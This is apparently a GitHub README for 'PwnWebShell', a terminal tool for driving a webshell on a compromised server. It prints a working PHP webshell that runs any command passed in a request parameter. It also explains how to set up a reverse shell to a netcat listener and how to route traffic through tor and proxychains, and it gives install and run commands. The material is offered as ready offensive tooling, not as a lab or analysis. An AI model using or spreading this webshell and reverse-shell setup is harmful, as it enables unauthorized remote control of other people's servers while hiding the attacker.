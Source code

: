 # PwnWebShell
Tool to facilitate the management of our webshell from a terminal.

All we need, is to upload to the committed server a PHP structure like the following to execute commands:

```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

After that specify the url where the .php file is located in the script variable called url_webshell, example url_webshell="https://example.com/shell.php"

![demo](https://raw.githubusercontent.com/DarkTrojanDev/PwnWebShell/main/img/url_example.png)

You can configure the reverse shell, specify your IP address and the port on netcat listening.

![demo](https://raw.githubusercontent.com/DarkTrojanDev/PwnWebShell/main/img/reverse.png)

**Requirements - curl tor proxychains rlwrap**

`sudo apt install curl tor proxychains-ng rlwrap -y`

**Installation**

  
1. `git clone https://github.com/DarkTrojanDev/PwnWebShell.git`


2. `chmod +x pwnwebshell.sh`


**Execution**
	
1. `sudo rlwrap ./pwnwebshell.sh`


**Demo Video**

url: https://b.top4top.io/m_2334y6geq1.mp4


